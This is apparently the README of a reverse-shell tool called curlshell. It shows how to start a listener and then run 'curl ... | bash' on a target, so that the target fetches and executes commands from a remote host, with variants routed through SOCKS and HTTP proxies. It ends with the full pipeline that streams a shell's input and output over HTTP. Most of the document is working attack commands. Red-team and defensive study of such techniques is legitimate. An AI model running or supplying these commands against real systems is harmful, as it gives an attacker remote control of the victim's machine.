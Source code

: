 # Reverse shell using curl

(Cloned from [https://github.com/irsl/curlshell](https://github.com/irsl/curlshell))

A reverse TCP shell through a proxy (using cURL).

Generate a SSL Certificate:
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

## Without Proxy

```sh
# Start your listener
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://1.2.3.4:8080 | bash
```

## With SOCKS Proxy
```sh
./curlshell.py -x socks5h://5.5.5.5:1080 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x socks5h://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | bash
```

## With HTTP Proxy
```sh
./curlshell.py -x http://5.5.5.5:3128 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x http://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | bash
```

## With HTTP (plaintext)
```sh
./curlshell.py --listen-port 8080
```
```sh
curl -sfL http://1.2.3.4:8080 | bash
```

# How it works
The first cURL request pipes this into a bash:
```sh
stdbuf -i0 -o0 -e0 curl -X POST -sk https://1.2.3.4:8080/input \
    | bash 2> >(curl -sk -T - https://1.2.3.4:8080/stderr) \
    | curl -sk -T - https://1.2.3.4:8080/stdout
```

The bash then starts 3 cURL processes to connect stdin, stdout and stderr. HTTP's 'chunked transfer' does the rest.

